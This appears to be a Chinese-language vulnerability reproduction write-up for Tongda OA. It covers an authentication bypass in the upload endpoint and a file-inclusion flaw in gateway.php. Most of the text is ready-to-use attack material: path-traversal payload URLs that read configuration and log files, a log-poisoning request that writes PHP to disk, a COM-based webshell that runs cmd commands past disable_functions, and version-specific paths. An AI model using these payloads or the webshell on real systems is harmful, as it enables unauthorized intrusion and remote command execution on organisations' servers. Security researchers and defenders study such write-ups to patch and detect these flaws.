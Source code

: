 ## 通达OA



### 文件包含测试

文件包含检测，payload:

	ip/ispirit/interface/gateway.php?json={"url":"/general/../../mysql5/my.ini"}

利用文件包含访问mysql.ini,检查是否有某些特定字符串 ，比如```innodb_log_group_home_dir```
![](include-poc.jpg)

payload2:

	ip/ispirit/interface/gateway.php?json={}&url=/general/../../nginx/logs/oa.access.log

利用文件包含访问OA日志
![](include-poc2.jpg)

## 复现

下载源码，链接：https://pan.baidu.com/s/1HP5pDsAK2QLOWpnB1JX-Yg 提取码：vab0 

是个exe，安装解压完是php代码。

用Sublime打开，都是16进制加密

![](2.jpg)

用notepad打开显示，zend加密，

![](3.jpg)

[php在线解密网站](http://dezend.qiling.org/free.html)  解密出源代码。

**文件上传**

ispirit/im/upload.php

要上传首先需要绕过登陆验证，在本系统中auth.php是登陆验证的相关逻辑，但在upload.php未修复前，如果$P非空就不需要经过auth.php验证即可执行后续代码。利用此处逻辑漏洞可绕过登陆验证直接上传文件。

![](4.jpg)

经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

因上传后的文件不在根目录，所以无法直接利用，因此需要进行文件包含。
![](5.jpg)

**文件包含**

![](6.jpg)

与上传相反，这里不传P参数就可以文件包含。

未修复前，可通过精心构造json进入47行的includ_once进行文件包含。官方在补丁中过滤了 ```..```防止用户读取其他目录文件。

## POC

poc有很多，其一，

首先构造url并访问，在日志中写入一句话，原理是OA默认会将访问url，agent写日志。

	/ispirit/interface/gateway.php?json={}&a=<?php file_put_contents('1.php','hello123');?>

先在浏览器访问，

![](7.jpg)

发现"<"被浏览器url编码了

![](8.png)

用burp重新发包。

![](9.jpg)

成功写入日志。(写日志的方式省去了上传)

![](10.png)

文件包含

![](11.jpg)

如果php poc 为 ```<?php file_put_contents('1.php','hello123');?>```

则上传到 存在漏洞文件 gateway.php 同级目录，如果php poc为```<?php file_put_contents('../1.php','hello123');?>```,则上传到 上一级目录 ispirit 目录下。**注意路径**。


## exp

通过 upload.php 上传一个文件，可自定义后缀名。经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

**思路一**：

上传一个写shell的php文件，在利用文件包含写shell。

具体见exp.py。

**思路二**：

执行cmd, 

MYOA/bin/ 目录下的 php.ini 禁用了一些执行，命令的函数。

	disable_functions = exec,shell_exec,system,passthru,proc_open,show_source,phpinfo

	disable_classes =

参考[使用com组件绕过disable_functions](https://www.cnblogs.com/-qing-/p/10944118.html)。

eg:

	<?php
	$command=$_GET['a'];
	$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
	$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
	$stdout = $exec->StdOut();
	$stroutput = $stdout->ReadAll();
	echo $stroutput;
	?>

这里写的exp总是将post数据自动url编码。达不到burp的效果。

![](12.jpg)

<br/>

![](13.png)

查看资料，

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)

需要先设置一次请求头setHeader("Content-Type", "application/x-www-form-urlencoded")再将数据拼接成string格式再进行发送  ：)

终于写成了exp2.py。


## 版本路径

不同环境路径不同。

例如2013：

/ispirit/im/upload.php

/ispirit/interface/gateway.php

例如2017：

/ispirit/im/upload.php

/mac/gateway.php

## 后记

一些趣事。

正常该用post包含的。

![](post-include.jpg)

get包含就很玄学了。正常get请求(不空行)是不行的,在浏览器GET请求也是不能包含的。

![](include.jpg)

注意看我光标位置。必须空出来一行，否则不成功。get无请求体，不知道是什么原因。

![](include2.jpg)

空两行试试

![](include3.jpg)

发包，Content-Length都有了，可真牛啊。

![](include4.jpg)

wireshark抓个包,get没请求体呀。见```strange-get-include.pcap```。

![](1.jpg)



## 参考资料

https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247483673&idx=1&sn=a1f88fa6c62b3d6e80f0b8a4e6d87a37&chksm=fa8b1c81cdfc9597cef9f078508611f765360e049978ac53f00b6a608a0e21ec5704879000e4&mpshare=1&scene=1&srcid=&sharer_sharetime=1584615867059&sharer_shareid=5a0049ad005b04d2683ee755107dbbd6#rd


http://club.tongda2000.com/forum.php?mod=viewthread&tid=128372


[**PHP绕过disable_function限制（一）**](https://www.cnblogs.com/-qing-/p/10944118.html)

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)